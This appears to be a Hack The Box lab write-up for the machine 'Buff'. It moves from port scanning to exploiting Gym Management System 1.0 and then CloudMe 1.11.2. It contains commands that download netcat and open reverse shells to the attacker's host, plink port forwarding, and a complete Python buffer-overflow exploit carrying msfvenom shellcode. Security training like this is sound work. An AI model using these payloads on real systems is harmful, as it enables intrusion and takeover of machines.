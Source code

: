 ```yaml
---
title: HTB - Buff Write-up
author: bigb0ss
date: 2020-11-20 23:25:00 +0800
categories: [Hack The Box, Windows, Easy]
tags: [hackthebox, buff, gymManagementSystem 1.0 RCE, plink, cloudMe bof]
image: /assets/img/post/htb/buff/01_infocard.png
---
```


# Initial Recon

## Nmap

Let’s begin with an initial port scan:

```console
$ nmap -Pn --open -p- -sC -sV 10.10.10.198

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

### Interesting Ports to Note

* HTTP (8080/TCP) - Web page. Gym Management Software 1.0

The contact page disclosing the version of the application:

![image](/assets/img/post/htb/buff/02.png)


# Initial Foothold

That particular version of the software was vulnerable to an Unauthenticated Remote Code Execution discovered by Bobby Cooke. The POC exploitation script can be found [here] (https://www.exploit-db.com/exploits/48506).

## Gym Management System 1.0 - Unauthenticated Remote Code Execution

By running the POC script, I successfully obtained an interactive web shell on the Buff box.

![image](/assets/img/post/htb/buff/03.png)

## Netcat Reverse Shell

Using the PowerShell, I uploaded the `nc.exe` onto the Buff box.

```console
C:\> powershell Invoke-WebRequest -Uri http://10.10.14.15/nc.exe -OutFile C:\xampp\htdocs\gym\upload\nc.exe
```

![image](/assets/img/post/htb/buff/04.png)

```console
C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.15 443 -e cmd.exe
```

![image](/assets/img/post/htb/buff/05.png)

As the user `shaun` , I could read the `user.txt` file.

![image](/assets/img/post/htb/buff/06.png)


# Privilege Escalation

## Shaun —> Administrator

Within the `shaun` user’s Download directory, there was a binary called `CloudMe_1112.exe` and this binary was actually running on the system as well. 

![image](/assets/img/post/htb/buff/07.png)

With some Google search, I found a BOF exploit for this CloudMe version 1.11.2 [here] (https://www.exploit-db.com/exploits/48389). From the POC script, the port for the CloudMe product was `8888` and that port was indeed in use on the Buff box; however, it was only accessible locally. 

> **NOTE**: I did not dig in further, but the PID for the CloudMe.exe kept changing. I suspected it was happening because of some type of scheduled tasks.

### Port Forwarding (plink.exe)

```console
C:\> powershell Invoke-WebRequest -Uri http://10.10.14.15/plink.exe -OutFile c:\Users\shaun\Downloads\plink.exe
```

![image](/assets/img/post/htb/buff/08.png)

The outbound to port 22 from the Buff box was restricted. So, I had to modified the following SSH config on my Kali:

![image](/assets/img/post/htb/buff/09.png)

Starting an SSH service on my Kali Linux:

![image](/assets/img/post/htb/buff/10.png)

```console
C:\> c:\users\shaun\downloads\plink.exe -ssh -P 8001 root@10.10.14.15 -R 8002:127.0.0.1:8888 -N
```

![image](/assets/img/post/htb/buff/11.png)

![image](/assets/img/post/htb/buff/12.png)

### BOF Exploit

First, created the `msfvenom` payload for the reverse shell.

```console
msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.15 8003 -e cmd.exe' -b '\x00\x0A\x0D' -f python
```

```python
import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.15 8003 -e cmd.exe' -b '\x00\x0A\x0D' -f python
buf =  b""
buf += b"\xbf\xa8\x82\xfa\xea\xdd\xc1\xd9\x74\x24\xf4\x5d\x29"
buf += b"\xc9\xb1\x3e\x83\xed\xfc\x31\x7d\x10\x03\x7d\x10\x4a"
buf += b"\x77\x06\x02\x08\x78\xf7\xd3\x6c\xf0\x12\xe2\xac\x66"
buf += b"\x56\x55\x1c\xec\x3a\x5a\xd7\xa0\xae\xe9\x95\x6c\xc0"
buf += b"\x5a\x13\x4b\xef\x5b\x0f\xaf\x6e\xd8\x4d\xfc\x50\xe1"
buf += b"\x9e\xf1\x91\x26\xc2\xf8\xc0\xff\x89\xaf\xf4\x74\xc7"
buf += b"\x73\x7e\xc6\xc6\xf3\x63\x9f\xe9\xd2\x35\xab\xb0\xf4"
buf += b"\xb4\x78\xc9\xbc\xae\x9d\xf7\x77\x44\x55\x8c\x89\x8c"
buf += b"\xa7\x6d\x25\xf1\x07\x9c\x37\x35\xaf\x7e\x42\x4f\xd3"
buf += b"\x03\x55\x94\xa9\xdf\xd0\x0f\x09\x94\x43\xf4\xab\x79"
buf += b"\x15\x7f\xa7\x36\x51\x27\xa4\xc9\xb6\x53\xd0\x42\x39"
buf += b"\xb4\x50\x10\x1e\x10\x38\xc3\x3f\x01\xe4\xa2\x40\x51"
buf += b"\x47\x1b\xe5\x19\x6a\x48\x94\x43\xe1\x8f\x2a\xfe\x47"
buf += b"\x8f\x34\x01\xf8\xe7\x05\x8a\x97\x70\x9a\x59\xdc\x8e"
buf += b"\xd0\xc0\x75\x06\xbd\x90\xc7\x4b\x3e\x4f\x0b\x75\xbd"
buf += b"\x7a\xf4\x82\xdd\x0e\xf1\xcf\x59\xe2\x8b\x40\x0c\x04"
buf += b"\x3f\x61\x05\x47\x85\xc1\xde\x29\x94\x89\x6e\xf6\x0e"
buf += b"\x1d\xeb\x69\xac\xae\xaf\x12\x4b\x3d\x0c\xa8\xdb\xd1"
buf += b"\xc3\x33\x78\x75\x72\xd7\xae\xe0\xf2\x72\x8f\xdb\x32"
buf += b"\x53\xfe\x2b\x1d\x9a\x34\x65\x50\xe9\x14\x41\xa2\x21"
buf += b"\x66\x91\xef\x24\xa8\xb2\x82\xc2\x86\x51\x25\x6e\xd7"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + buf))

buf = padding1 + EIP + NOPS + buf + overrun 

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8002))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)
```

I received the elevated shell on the Netcat listener and read the `root.txt` flag.

![image](/assets/img/post/htb/buff/13.png)


































